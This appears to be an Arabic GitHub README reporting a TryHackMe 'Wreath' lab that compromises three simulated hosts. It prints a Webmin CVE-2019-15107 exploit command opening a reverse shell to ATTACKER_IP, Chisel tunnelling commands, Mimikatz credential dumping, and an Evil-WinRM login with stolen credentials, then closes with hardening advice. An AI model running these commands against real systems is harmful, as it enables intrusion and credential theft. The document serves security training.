

# Wreath — تقرير التنقل الشبكي واختبار الاختراق المتقدم (Pivoting)

[English Version](README.md) | [📖 قراءة التقرير بالعربية](README_AR.md)
[📄 تحميل التقرير الأصلي بصيغة DOCX](./Wreath_TryHackMe_Report_EN.docx)

---

## 📋 بطاقة الهدف والمعلومات العامة

| العنصر | التفاصيل |
| :--- | :--- |
| **اسم المختبر** | Wreath (منصة TryHackMe) — محاكاة شبكة شركات كاملة |
| **الجهاز الأول (البوابة الخارجية)** | CentOS Linux (خادم Webmin) — آي بي `10.200.x.200` |
| **الجهاز الثاني (سيرفر داخلي)** | Windows Server (تطبيق GitStack) — آي بي `10.200.x.150` |
| **الجهاز الثالث (محطة عمل داخلية)** | Windows Workstation (خدمات ضعيفة) — آي بي `10.200.x.100` |
| **مستوى الصعوبة** | صعب (Hard) |
| **المفاهيم الأساسية** | التنقل الشبكي متعدد القفزات (Pivoting)، أنفاق Chisel و SOCKS5، سحب الهاشات بـ Mimikatz |
| **النتيجة النهائية** | سيطرة كاملة على الأجهزة الثلاثة بصلاحيات Root و SYSTEM |

---

## 🎯 المخطط الهجومي والتنقل بين الأجهزة (Network Pivoting)



---

## 🔍 ملخص الأجهزة المخترقة

| الجهاز | العنوان | نظام التشغيل | ثغرة الاختراق | أعلى صلاحية تم الوصول لها |
| :--- | :--- | :--- | :--- | :--- |
| **Host 1** | `10.200.x.200` | CentOS Linux | ثغرة Webmin بدون مصادقة (`CVE-2019-15107`) | `root` |
| **Host 2** | `10.200.x.150` | Windows Server | ثغرة GitStack RCE وسحب الذاكرة بـ Mimikatz | `NT AUTHORITY\SYSTEM` |
| **Host 3** | `10.200.x.100` | Windows Workstation | الدخول ببيانات مستخرجة + استغلال مسارات الخدمات | `NT AUTHORITY\SYSTEM` |

---

## 🛠️ خطوات الهجوم والتنقل العملي

### 1. اختراق السيرفر الأول (CentOS Webmin)
* فحص Nmap كشف عن المنفذ `10000/tcp` يشغل لوحة Webmin بإصدار 1.890.
* هذا الإصدار مصاب بثغرة تنفيذ أوامر كيرنل مباشرة بدون تسجيل دخول (`CVE-2019-15107`):
```bash
curl -k -X POST "https://10.200.x.200:10000/password_change.cgi"   -H "Referer: https://10.200.x.200:10000/"   -d "user=root&pam=1&expired=2|bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"
```
تم استلام شل فوري بصلاحيات **Root** على السيرفر الأول.

### 2. بناء نفق التوجيه الشبكي (Pivoting via Chisel)
نظراً لأن الأجهزة الأخرى تقع في شبكة داخلية معزولة لا يمكن لجهاز كالي الوصول إليها مباشرة، تم استخدام أداة **Chisel** لتحويل السيرفر الأول إلى بروكسي:
* على كالي:
```bash
chisel server -p 8000 --reverse
```
* على السيرفر الأول:
```bash
./chisel client ATTACKER_IP:8000 R:socks
```
أصبح بالإمكان توجيه أي أداة داخل الشبكة عبر أداة `proxychains`.

### 3. اختراق السيرفر الثاني وسحب بيانات الذاكرة (GitStack)
* الفحص عبر البروكسي كشف عن سيرفر إدارة المشاريع GitStack 2.3.10 على البورت 80.
* تم استغلال ثغرة رفع كود PHP والحصول على شل عكسي بصلاحيات `NT AUTHORITY\SYSTEM`.
* تم تشغيل أداة **Mimikatz** لقراءة كلمات السر والهاشات المحفوظة في الذاكرة (LSASS):
```powershell
privilege::debug
sekurlsa::logonpasswords
```
تم استخراج كلمة السر الصريحة لمستخدم الأدمن `Thomas`.

### 4. اختراق الجهاز الثالث والسيطرة التامة على الشبكة
* تم الاتصال بمحطة العمل الثالثة عبر بروتوكول الإدارة البعيدة **Evil-WinRM** باستخدام بيانات Thomas المستخرجة:
```bash
proxychains evil-winrm -i 10.200.x.100 -u Thomas -p <PASSWORD>
```
* فحص الخدمات المحلية أظهر وجود خدمة تعمل تلقائياً ولها مسار غير محاط بعلامات تنصيص (Unquoted Service Path) ويسمح للمستخدم بالكتابة في مجلد الأب.
* تم وضع بايلود تنفيذي باسم يسبق الفراغ في المسار وإعادة تشغيل الخدمة، ليتم تشغيل الشل تلقائياً بأعلى صلاحية:
`NT AUTHORITY\SYSTEM`.

---

## 🛡️ توصيات الحماية المؤسسية (Enterprise Hardening)
1. **عزل الشبكات (Network Segmentation):** منع الاتصال المباشر بين خوادم الويب العامة والشبكات الداخلية إلا عبر جدران نارية محكمة.
2. **حماية ذاكرة النظام (LSA Protection):** تفعيل حماية عملية `lsass.exe` عبر سجلات ويندوز (RunAsPPL) لمنع أدوات مثل Mimikatz من قراءة كلمات السر.
3. **تصحيح مسارات الخدمات:** التأكد من وضع علامات اقتباس `""` حول مسارات البرامج التي تحتوي على مسافات في مجلدات `Program Files`.
